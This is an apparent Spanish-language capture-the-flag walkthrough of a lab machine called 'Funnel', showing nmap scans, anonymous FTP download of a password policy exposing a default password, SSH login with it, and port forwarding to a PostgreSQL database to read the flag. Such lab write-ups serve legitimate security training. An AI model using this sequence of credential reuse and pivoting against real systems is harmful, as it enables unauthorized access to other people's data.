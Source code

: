 # Funnel

🗹 Verificar si el host está activo:

```shell
ping -c 1 10.129.228.195

PING 10.129.228.195 (10.129.228.195) 56(84) bytes of data.
64 bytes from 10.129.228.195: icmp_seq=1 ttl=63 time=166 ms

--- 10.129.228.195 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 166.276/166.276/166.276/0.000 ms
```

> Sistema operativo:  **Linux**

🗹 Identificar puertos abiertos y qué servicios están corriendo:

```shell
sudo nmap -p- -sS --open --min-rate 5000 -n -Pn -vv 10.129.228.195 -oG allPorts

PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
```

🗹 Ejecutar scripts para recopilar información adicional:

```shell
sudo nmap -p 21,22 -sCV 10.129.228.195 -oN targeted

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Nov 28  2022 mail_backup
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.112
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

| Puerto | Servicio | Versión                                                      |
| ------ | -------- | ------------------------------------------------------------ |
| 21     | ftp      | vsftpd 3.0.3                                                 |
| 22     | ssh      | OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0) |

🗹 Acceder al servidor mediante el servicio `ftp` de manera anónima:

```shell
ftp ftp://anonymous:@10.129.228.195

Connected to 10.129.228.195.
220 (vsFTPd 3.0.3)
331 Please specify the password.
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
200 Switching to Binary mode.
ftp> dir
229 Entering Extended Passive Mode (|||59206|)
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Nov 28  2022 mail_backup
226 Directory send OK.
ftp> cd mail_backup
250 Directory successfully changed.
ftp> dir
229 Entering Extended Passive Mode (|||26213|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp         58899 Nov 28  2022 password_policy.pdf
-rw-r--r--    1 ftp      ftp           713 Nov 28  2022 welcome_28112022
226 Directory send OK.
ftp> get password_policy.pdf
local: password_policy.pdf remote: password_policy.pdf
229 Entering Extended Passive Mode (|||30796|)
150 Opening BINARY mode data connection for password_policy.pdf (58899 bytes).
100% |*******************************************************************************************************************************************| 58899      163.82 KiB/s    00:00 ETA
226 Transfer complete.
58899 bytes received in 00:00 (110.05 KiB/s)
ftp> get welcome_28112022
local: welcome_28112022 remote: welcome_28112022
229 Entering Extended Passive Mode (|||32181|)
150 Opening BINARY mode data connection for welcome_28112022 (713 bytes).
100% |*******************************************************************************************************************************************|   713        5.27 MiB/s    00:00 ETA
226 Transfer complete.
713 bytes received in 00:00 (4.09 KiB/s)
ftp> exit
221 Goodbye.
```

🗹 Abrir el archivo descargado `welcome_28112022` y tomar nota de los usuario encontrados:

```shell
cat welcome_28112022


```

🗹 Abrir el archivo descargado `password_policy.pdf` y tomar nota de la contraseña encontrada:

```shell
xdg-open password_policy.pdf

Password Policy 🔐
Overview
Passwords are a key part of our cyber security strategy. The purpose of this policy
is to make sure all resources and data receive adequate password protection. We
cannot overstate the importance of following a secure password policy and
therefore have provided this document for your guidance. The policy covers all
users who are responsible for one or more account or have access to any resource
that requires a password.
Password Creation:
• All passwords should be su ciently complex and therefore di cult for anyone to
guess.
• In addition, employees should also use common sense when choosing
passwords. They must avoid basic combinations that are easy to crack. For
instance, choices like “password,” “password1” and “Pa$$w0rd” are equally bad
from a security perspective.
• A password should be unique, with meaning only to the user who chooses it.
• In some cases, it will be necessary to change passwords at certain frequencies.
• Default passwords — such as those created for new users — must be changed
as quickly as possible. For example the default password of “funnel123#!#” must
be changed immediately.
```

🗹 Probar acceder al servidor por `ssh` probando cada nombre de usuario con la contraseña por defecto encontrada en las políticas de contraseña:

```shell
ssh christine@10.129.228.195
```

🗹 Verificar qué puertos están abiertos y en uso en el servidor:

```shell
christine@funnel:~$ netstat -nat

Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:37875         0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN     
tcp        0    208 10.129.228.195:22       10.10.14.112:34762      ESTABLISHED
tcp        0      1 10.129.228.195:46548    8.8.8.8:53              SYN_SENT   
tcp6       0      0 :::21                   :::*                    LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     

christine@funnel:~$ netstat -at
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 localhost:37875         0.0.0.0:*               LISTEN     
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN     
tcp        0      0 localhost:postgresql    0.0.0.0:*               LISTEN     
tcp        0    208 10.129.228.195:ssh      10.10.14.112:34762      ESTABLISHED
tcp        0      1 10.129.228.195:41068    8.8.8.8:domain          SYN_SENT   
tcp6       0      0 [::]:ftp                [::]:*                  LISTEN     
tcp6       0      0 [::]:ssh                [::]:*                  LISTEN   
```

🗹 Acceder al servicio **postgresql** que se ejecuta en el localhost en el puerto 5432 del servidor a través de un port forwarding con **SSH**:

```shell
ssh -f -N -L 1234:localhost:5432 christine@10.129.228.195
christine@10.129.228.195's password:

psql -h localhost -U christine -p 1234
Password for user christine:
```
## Flag

La flag se encuentra en la base de datos `secrets` y, la tabla `flag`:

```shell
christine=# \l

                                                        List of databases
   Name    |   Owner   | Encoding | Locale Provider |  Collate   |   Ctype    | ICU Locale | ICU Rules |    Access privileges    
-----------+-----------+----------+-----------------+------------+------------+------------+-----------+-------------------------
 christine | christine | UTF8     | libc            | en_US.utf8 | en_US.utf8 |            |           | 
 postgres  | christine | UTF8     | libc            | en_US.utf8 | en_US.utf8 |            |           | 
 secrets   | christine | UTF8     | libc            | en_US.utf8 | en_US.utf8 |            |           | 
 template0 | christine | UTF8     | libc            | en_US.utf8 | en_US.utf8 |            |           | =c/christine           +
           |           |          |                 |            |            |            |           | christine=CTc/christine
 template1 | christine | UTF8     | libc            | en_US.utf8 | en_US.utf8 |            |           | =c/christine           +
           |           |          |                 |            |            |            |           | christine=CTc/christine
(5 rows)

christine=# \c secrets
psql (16.2 (Debian 16.2-1), server 15.1 (Debian 15.1-1.pgdg110+1))
You are now connected to database "secrets" as user "christine".

secrets=# \dt
         List of relations
 Schema | Name | Type  |   Owner   
--------+------+-------+-----------
 public | flag | table | christine
(1 row)

secrets=# SELECT * FROM flag;
              value               
----------------------------------
 <flag>
(1 row)
```
